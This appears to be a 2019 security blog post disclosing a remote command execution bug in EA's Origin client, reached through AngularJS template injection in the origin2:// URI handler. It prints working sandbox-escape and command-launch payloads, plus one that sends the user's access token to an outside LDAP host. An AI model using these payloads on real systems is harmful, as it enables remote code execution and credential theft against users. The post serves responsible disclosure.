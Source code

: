 ```yaml
---
layout: post
title: "RCE in EA's Origin client"
date: 2019-04-16
author: Daley Bee
img: post01.jpg
thumb: thumb01.jpg
description: "Hello, and welcome! As you probably gathered by the title, today we will be going over a remote command execution vulnerability identified in EA's Origin desktop client. This issue was both identified and reported by Dominik Penner and Daley Bee of Underdog Security."
---
```


Hello, and welcome! As you probably gathered by the title, today we will be going over a remote command execution vulnerability identified in EA's Origin desktop client. This issue was both identified and reported by Dominik Penner and Daley Bee of Underdog Security.
<!--more-->

### What is Origin?
Origin is an online gaming, digital distribution and digital rights management platform developed by Electronic Arts that allows users to purchase games for PC and mobile platforms. Origin is home to gaming title giants such as Apex Legends, The Sims, and Battlefield. 
### What did we find?
We located a client-sided template injection, where we proceeded to use an AngularJS sandbox escape and achieve RCE by communicating with QtApplication's QDesktopServices.
### Technical explanation
We were simply curious and looking around at the `origin2` URI handler, when we came across a parameter where we could supply data that would be echoed back to us in the Origin client, prompting us to start tinkering. 

Example: 
{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title=example
{% endraw %}
{% endhighlight %}

![example title](/assets/origin_orce/example_title.jpg)

After some quick testing, we learnt that there was a client-sided template injection in the `title` parameter. 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{668.5*2}}
{% endraw %}
{% endhighlight %}

![1337 template injection](/assets/origin_orce/template_injection.jpg)

What next!? We already knew due to prior tinkering that Origin ran on AngularJS. Thanks to amazing work by other researchers in the past, with a simple Google search, we can find plenty of working AngularJS sandbox escapes. We used these: [link to payloads](https://gist.github.com/mccabe615/cc92daaf368c9f5e15eda371728083a3)

With these payloads, we were able to escape the AngularJS sandbox using the template injection. This is the payload we used: 

{% highlight ruby %}
{% raw %}
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(l),a')}}
{% endraw %}
{% endhighlight %}

The entire payload ended up becoming: 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
{% endraw %}
{% endhighlight %}

![sandbox escape](/assets/origin_orce/sandbox_escape.jpg)

We then learnt that by leveraging the in-client API, you can communicate with the QtApplication's QDesktopServices. 

To pop a calculator, we used the following payload:

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,Origin.client.desktopServices.asyncOpenUrl("calc.exe"),a')}}
{% endraw %}
{% endhighlight %}

As normal with an RCE, this would've allowed an attacker to execute any kind of commands their heart desired on a targets machine. Not good to say the least...

An attacker could also steal a users access token many of ways, for example, through LDAP: 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,Origin.client.desktopServices.asyncOpenUrl("ldap://safe.tld/o="+Origin.user.accessToken()+",c=UnderDog"),a')}}
{% endraw %}
{% endhighlight %}

Moral to the story Origin; sanitize your inputs!

Thank you for reading!

----
### Disclosure timeline
* April 15, 2019 - Vulnerability identified
* April 16, 2019 - Vulnerability reported
* April 16, 2019 - Vulnerability patched
* April 16, 2019 - Public disclosure

* Dominik Penner - [Twitter](https://twitter.com/zer0pwn)
* Daley Bee - [Twitter](https://twitter.com/daley)
